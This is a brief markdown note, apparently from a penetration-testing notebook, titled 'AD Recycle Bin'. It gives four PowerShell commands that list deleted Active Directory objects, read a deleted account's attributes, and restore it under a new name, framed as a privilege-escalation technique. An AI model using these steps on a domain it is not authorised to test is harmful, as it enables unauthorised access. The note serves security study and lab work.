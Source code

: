```yaml
---
title: "AD Recycle Bin"
date: 2024-7-13
tags: ["ad recycle bin", "active driectory", "ad", "Windows"]
---
```


---
### Privesc #1: Restore deleted AD account

#### 1. Import AD module

```powershell
import-module activedirectory
```

#### 2. Query all deleted objects within domain

```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

#### 3. Get all details for the deleted account

```powershell
Get-ADObject -filter { SAMAccountName -eq "<DELETED_USER>" } -includeDeletedObjects -property *
```

#### 4. Restore deleted account

```powershell
# Rename the target account to avoid user exist error
Restore-ADObject -Identity <ObjectGUID> -NewName <NEW_USER> -TargetPath "CN=Users,DC=<EXAMPLE>,DC=<COM>"
```

<br>